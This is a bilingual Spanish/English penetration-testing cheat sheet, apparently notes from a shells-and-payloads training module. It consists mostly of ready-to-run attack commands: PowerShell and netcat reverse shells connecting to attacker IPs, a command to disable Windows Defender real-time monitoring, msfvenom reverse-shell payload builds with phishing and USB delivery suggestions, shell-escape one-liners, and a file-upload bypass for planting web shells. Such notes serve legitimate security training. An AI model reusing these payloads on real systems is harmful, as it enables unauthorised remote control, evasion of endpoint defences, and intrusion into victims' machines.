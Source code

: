 [[Shells_Payloads_Module_Cheat_Sheet.pdf]]



conexion rdp
xfreerdp /u:admin /p:miClaveSegura123 /v:10.10.10.13

REVERSE SHELL WINDOWS 
listener -> sudo nc -nlvp 443
payload ```
```cmd-session
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.137',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

```
es probable que windows defender la bloquee 
para desactivarlo en una consola powershell con permisos de admin
```powershell-session
PS C:\windows\system32> Set-MpPreference -DisableRealtimeMonitoring $true
```

ONELINERS

Netcat/Bash Reverse Shell One-liner
```shell-session
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f
```
Removes the `/tmp/f` file if it exists, `-f` causes `rm` to ignore nonexistent files. The semi-colon (`;`) is used to execute the command sequentially.

Makes a [FIFO named pipe file](https://man7.org/linux/man-pages/man7/fifo.7.html) at the location specified. In this case, /tmp/f is the FIFO named pipe file, the semi-colon (`;`) is used to execute the command sequentially.

Concatenates the FIFO named pipe file /tmp/f, the pipe (`|`) connects the standard output of cat /tmp/f to the standard input of the command that comes after the pipe (`|`).

Specifies the command language interpreter using the `-i` option to ensure the shell is interactive. `2>&1` ensures the standard error data stream (`2`) `&` standard output data stream (`1`) are redirected to the command following the pipe (`|`)Uses Netcat to send a connection to our attack host `10.10.14.12` listening on port `7777`. 

The output will be redirected (`>`) to /tmp/f, serving the Bash shell to our waiting Netcat listener when the reverse shell one-liner command is executed


PowerShell ONELINER
```cmd-session
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

MSFVENOM
staged < stageless

```shell-session
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
```
-p -> payoload
lhost lport -> localhost y localport al que enviar la shell
f -> formato en este caso elf (pasra windows .exe)

setup listener -> sudo nc -nlvp 443

enviar por email phising,  link de descarga en web, pendrive

INFILTRATING WINDOWS
windows TLL 32 o 128

DLL -> dynamic linking library library file used in Microsoft operating systems to provide shared code and data that can be used by many different programs at once. These files are modular and allow us to have applications that are more dynamic and easier to update. As a pentester, injecting a malicious DLL or hijacking a vulnerable library on the host can elevate our privileges to SYSTEM and/or bypass User Account Controls.

Batch -> Batch files are text-based DOS scripts utilized by system administrators to complete multiple tasks through the command-line interpreter. These files end with an extension of .bat. We can use batch files to run commands on the host in an automated fashion. For example, we can have a batch file open a port on the host, or connect back to our attacking box. Once that is done, it can then perform basic enumeration steps and feed us info back over the open port.

VBS -> VBScript is a lightweight scripting language based on Microsoft's Visual Basic. It is typically used as a client-side scripting language in webservers to enable dynamic web pages. VBS is dated and disabled by most modern web browsers but lives on in the context of Phishing and other attacks aimed at having users perform an action such as enabling the loading of Macros in an excel document or clicking on a cell to have the Windows scripting engine execute a piece of code.

MSI -> .MSI files serve as an installation database for the Windows Installer. When attempting to install a new application, the installer will look for the .msi file to understand all of the components required and how to find them. We can use the Windows Installer by crafting a payload as an .msi file. Once we have it on the host, we can run msiexec to execute our file, which will provide us with further access, such as an elevated reverse shell.

POWERSHELL -> Powershell is both a shell environment and scripting language. It serves as Microsoft's modern shell environment in their operating systems. As a scripting language, it is a dynamic language based on the .NET Common Language Runtime that, like its shell component, takes input and output as .NET objects. PowerShell can provide us with a plethora of options when it comes to gaining a shell and execution on a host, among many other steps in our penetration testing process.

herramientas de payloads -> msfvenom(payloads), payloadallthethings(cheatsheets),  mythic c2 framework(payloads), nishang(powershell scripts), darkarmour(binaries)

INFILTRATING LINUX / UNIX

==SPAWN INTERACTIVE SHELLS / UPGRADE SHELL==

PYTHON SPAWN TTY INTERACTIVE SHELL
```shell-session
python -c 'import pty; pty.spawn("/bin/sh")' 
```
BASH SPAWN TTY INTERACTIVE SHELL 
```shell-session
/bin/sh -i
```
PERL
```shell-session
perl —e 'exec "/bin/sh";'
```
(desde script)->
```shell-session
perl: exec "/bin/sh";
```
RUBY
```shell-session
ruby: exec "/bin/sh"
```
LUA
(desde script)
```
lua: os.execute('/bin/sh')
```
AWK
```shell-session
awk 'BEGIN {system("/bin/sh")}'
```
FIND
```
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```
```shell-session
find . -exec /bin/sh \; -quit
```
VIM
```shell-session
vim -c ':!/bin/sh'
```
VIM ESCAPE
```shell-session
vim
:set shell=/bin/sh
:shell
```

WEB SHELLS
a `web shell` is a browser-based shell session we can use to interact with the underlying operating system of a web server

Laudanum
contiene  plantillas de archivos injectables para obtener una webshell
aspx-> `Active Server Page Extended` (`ASPX`) is a file type/extension written for [Microsoft's ASP.NET Framework](https://docs.microsoft.com/en-us/aspnet/overview). On a web server running the ASP.NET framework, web form pages can be generated for users to input data. On the server side, the information will be converted into HTML. We can take advantage of this by using an ASPX-based web shell to control the underlying Windows operating system. Let's witness this first-hand by utilizing the Antak Webshell.

systeminfo -> info windows

php webshell
si solo permite archivos de imagen se puede bypass con burpsuite
We will change Content-type from `application/x-php` to `image/gif`. This will essentially "trick" the server and allow us to upload the .php file, bypassing the file type restriction. Once we do this, we can select `Forward` twice, and the file will be submitted. We can turn the Burp interceptor off now and go back to the browser to see the results.


apache .war file revshell
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<your-ip> LPORT=<your-port> -f war -o shell.war

http://target:8080/shell/<nombredeljsp>.jsp

```
